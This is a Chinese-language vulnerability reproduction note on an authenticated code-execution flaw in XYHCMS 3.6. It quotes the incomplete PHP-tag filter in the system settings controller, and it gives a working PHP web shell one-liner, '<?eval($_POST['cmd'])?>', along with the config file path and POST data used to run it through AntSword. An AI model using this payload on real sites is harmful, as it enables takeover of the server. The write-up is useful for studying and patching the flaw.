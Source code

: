 XYHCMS 3.6 后台代码执行漏洞（二）
=================================

一、漏洞简介
------------

二、漏洞影响
------------

XYHCMS 3.6

三、复现过程
------------

### 漏洞分析

`/App/Manage/Controller/SystemController.class.php`

    public function site() {
            if (IS_POST) {
                $data = I('config', array(), 'trim');
                //<script\s+language[\s=]+["\']*php["\']*[^>]*?\>.*?<\/script>
                $preg_param = '/<script\s+language[\s=]+["\']*php["\']*[^>]*?\>/is';
                foreach ($data as $key => $val) {
                    if (stripos($val, '<?php') !== false) {
                        $data[$key] = preg_replace('/<\?php(.+?)\?>/i', '', $val);
                    }
    ————————————————————————————————————————————————————————————————————————————
                    if (stripos($val, '<script') !== false && stripos($val, 'php') !== false) {
                        $data[$key] = preg_replace('/<script\s+language[\s=]+["\']*php["\']*[^>]*?\>.*?<\/script>/i', '', $val);
                    }
                    if (stripos($data[$key], '<?php') !== false || preg_match($preg_param, $data[$key])) {
                        $this->error('禁止输入php代码');
                    }
                }
                ————————————————————————————————————————————————————————————————————————————

### 漏洞复现

1.  进入后台

2.  系统设置-\>网站设置-\>会员配置-\>禁止使用的名称    ![1.png](./resource/XYHCMS3.6后台代码执行漏洞(二)/media/rId26.png){width="5.833333333333333in"
    height="2.553546587926509in"}

-   <?eval($_POST['cmd'])?>

3.  访问漏洞文件,蚁剑连接

-   `http://localhost/App/Runtime/Data/config/site.php`

    POST数据：`cmd=phpinfo();`
